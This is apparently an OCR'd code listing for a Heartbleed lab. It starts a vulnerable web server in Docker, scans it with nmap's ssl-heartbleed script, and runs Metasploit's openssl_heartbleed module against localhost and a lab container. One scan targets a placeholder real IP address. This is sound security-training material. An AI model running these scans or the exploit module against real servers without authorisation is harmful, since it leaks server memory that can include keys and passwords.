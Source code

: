 # Start web server
docker-compose up -d web-server

# Scan web server using nmap from the local machine
sudo nmap -sV -p 8443 --script=ssl-heartbleed 127.0.0.1


# Scan heartbleed vulnerability from the attacker container
docker-compose run scanner -sV -p 443 --script=ssl-heartbleed web-server

docker run --rm -it instrumentisto/nmap -sV -p 8443 --script=ssl-heartbleed real-ip-address(reachable)


# Run Metasploit console in a container
docker run --rm -it metasploitframework/metasploit-framework ./msfconsole

use auxiliary/scanner/ssl/openssl_heartbleed
set VERBOSE true
set RHOSTS web-server
set RPORT 443
exploit


# Install Metasploit on Linux / macOS (AWS Ubuntu)
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
# Run Metasploit on Linux / macOS (AWS Ubuntu)
msfconsole
# From there, the program will ask you a couple of questions and will ask for a username and
# password. From there, the program will successfully start and we can get down to business.
# We will input the following to setup our program to target for the Heartbleed bug:
use auxiliary/scanner/ssl/openssl_heartbleed
set VERBOSE true
set RHOSTS 127.0.0.1
set RPORT 8443
exploit








# No longer needed: start the attacker container image
docker compose run attacker bash
# Or
docker-compose run attacker bash

